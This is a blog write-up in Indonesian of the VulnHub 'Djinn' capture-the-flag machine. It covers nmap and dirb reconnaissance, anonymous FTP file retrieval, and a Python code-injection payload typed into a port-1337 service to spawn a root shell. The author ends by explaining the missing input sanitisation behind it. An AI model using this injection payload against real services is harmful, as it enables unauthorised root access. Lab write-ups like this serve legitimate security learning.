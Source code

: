 ```yaml
---
title: '[VulnHub] Djinn WriteUp'
date: 2019-12-21T20:09+07:00
categories: blog
tags:
  - vulnhub
  - writeup
  - code injection
  - python
---
```


For English version of this write-up, [click here](https://medium.com/@zaidanrizaki/vulnhub-djinn-writeup-b19fcfd5a4d8).

## Information Gathering
### nmap

`nmap -sC -sV -p- djinn.vh -v -oN initial.nmap`
```
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              11 Oct 20 23:54 creds.txt
| -rw-r--r--    1 0        0             128 Oct 21 00:23 game.txt
|_-rw-r--r--    1 0        0             113 Oct 21 00:23 message.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.43.192
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   filtered ssh
1337/tcp open     waste?
| fingerprint-strings: 
|   NULL: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|     '/', 1)
|   RPCCheck: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|_    '-', 2)
7331/tcp open     http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
|_http-title: Lost in space
```
Ada `ftp` di port 21, `ssh` di port 22 tapi filtered, `http` di port `7331`, dan netcat(?) di port `1337`.

### ftp
Login ke `ftp` dan download file `creds.txt`, `game.txt`, `message.txt`.  

*games.txt*
```
oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the 
final level and get the prize.
```

*creds.txt*
```
nitu:81299
```

*message.txt*
```
@nitish81299 I am going on holidays for few days, please take care of all the work. 
And don't mess up anything.
```

### dirb
`dirb http://djinn.vh/ /usr/share/wordlists/big.txt`

```
GENERATED WORDS: 20458                                                         

---- Scanning URL: http://djinn.vh:7331/ ----
+ http://djinn.vh:7331/genie (CODE:200|SIZE:1676)                                                                                          
                                                                                                                                           
(!) FATAL: Too many errors connecting to host
    (Possible cause: EMPTY REPLY FROM SERVER)
                                                                               
-----------------
END_TIME: Sat Dec 21 20:14:37 2019
DOWNLOADED: 16063 - FOUND: 1
```
Berhubung `dirb`nya ternyata error cuma nemu satu dir dan saya terlalu males buat `dirb` atau enum 
ulang. Saya asumsikan attack vectornya bukan dari web.  

*index.html*
![index](/assets/images/Djinn/djinn.png){: img_content }

*/genie*
![genie](/assets/images/Djinn/genie.png){: img_content }

## Exploitation
### 1337
`nc djinn.vh 1337`
```
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|
                                                     

Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(1, '-', 2)
>
```
Karena dari point `http-server-header` dari hasil scan `nmap` menggunakan backend python, mungkin flask(?). Saya iseng untuk melakukan code injection `__import__('os').system('/bin/sh')` ke port ini... dan ternyata work dan kita langsung mendapat user `root` :haha:
![root](/assets/images/Djinn/root.png){: img_content }  

Tinggal cari flag rootnya lalu selesai :rofl:
![root](/assets/images/Djinn/rootflag.png){: img_content }

Sebenernya attack vector ini murni hoki karena gak ada indikator bahwa app yang berjalan di port 1337 tadi menggunakan python. Seharusnya code injection dilakukan di web server di `http://djinn.vh/wish` seperti yang dilakukan di [artikel ini](https://www.hackingarticles.in/djinn1-vulnhub-walkthrough/). Namun karena pada tahap reconnaisance `dirb` saya error jadi saya tidak menemukan direktori `/wish` tersebut.  

Setelah ditelusuri source code aplikasi di port 1337 tersebut ada di `/opt/1337/app.py`. Code injection tersebut bisa berjalan karena tidak adanya filtering/sanitization input dari user dan penggunaan versi python yang outdated (v2.7.15), dan ditambah app tersebut dijalankan oleh user `root`.

Sekian writeup kali ini, see ya!



